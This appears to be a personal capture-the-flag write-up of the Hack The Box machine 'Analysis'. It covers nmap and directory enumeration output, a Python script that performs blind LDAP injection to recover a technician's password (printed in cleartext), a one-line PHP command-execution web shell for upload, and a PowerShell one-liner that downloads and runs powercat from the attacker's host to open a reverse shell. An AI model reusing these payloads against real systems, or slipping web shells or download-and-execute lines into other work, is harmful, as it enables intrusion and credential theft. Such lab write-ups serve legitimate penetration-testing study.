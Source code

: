 
Nmap Scanning :

~~~
nmap 10.129.232.211 -sC -sV
~~~

~~~
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-23 11:26 IST
Nmap scan report for 10.129.232.211
Host is up (0.29s latency).
Not shown: 987 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-01-23 05:56:47Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: analysis.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: analysis.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3306/tcp open  mysql         MySQL (unauthorized)
Service Info: Host: DC-ANALYSIS; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: -18s
| smb2-time: 
|   date: 2024-01-23T05:57:10
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 87.06 seconds
~~~


![[Pasted image 20240123113017.png]]
~~~
[02:42:52] 301 -  174B  - /dashboard  ->  http://internal.analysis.htb/dashboard/
[02:45:15] 301 -  170B  - /users  ->  http://internal.analysis.htb/users/ 
~~~



![[Pasted image 20240123154239.png]]


~~~ python

import requests
import logging as log 
import string

log.basicConfig(level=log.DEBUG, format="%(message)s")

PREFIX = "technician)(Description="
CHECK_NAME = "technician"


def check_data(data):
    log.debug(f"Checking: {data}")
    r = requests.get(f"http://internal.analysis.htb//users/list.php?name={PREFIX}{data}")
    if "</table>" == r.text:
        log.debug(f"Error: {data}")
        return False
    elif f"{CHECK_NAME}" in r.text:
        log.debug(f"Success: {data}")
        return True
    else:
        log.debug(f"False: {data}")
        return False


WORDARRAY = [i for i in string.ascii_letters + string.digits]
WORDARRAY.append("\=")
WORDARRAY.append("\*")
WORDARRAY.append("\#")
WORDARRAY.append("{")
WORDARRAY.append("}")
WORDARRAY.append("\(")
WORDARRAY.append("\)")



def check_append():
    result = ""
    while True:
        for i in WORDARRAY:
            if check_data(result + i + "*"):
                result += i
                log.debug(f"Result: {result}")
                break
        else:
            break
    return result

def check_prepend():
    result = ""
    while True:
        for i in WORDARRAY:
            if check_data("*" + i + result):
                result = i + result
                log.debug(f"Result: {result}")
                break
        else:
            break
    return result

def main():
    log.info(check_prepend())
    log.info(check_append())


if __name__ == "__main__":
    main()
~~~

LDAP injection to find the password of the technician

Username: technician@analysis.htb
Password: 97nTtl*4qp96bv

![[Pasted image 20240123223548.png]]

![[Pasted image 20240123223611.png]]

there is an upload option in this website so try to get the shell with this 

~~~php 
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
~~~

to get the shell upload as the file name shell.php

![[Pasted image 20240123223955.png]]

there we able to run the php file in so we can take the shell using this
but in normal shell we didn't not able to interactive shell 

So we using powercat tool to get the interactive shell

by this  we get the shell 

~~~
powershell -c "Start-Sleep -Seconds 10; IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.4:801/powercat.ps1'); powercat -c 10.10.14.4 -p 1234 -e cmd" 
~~~

![[Pasted image 20240123224937.png]]


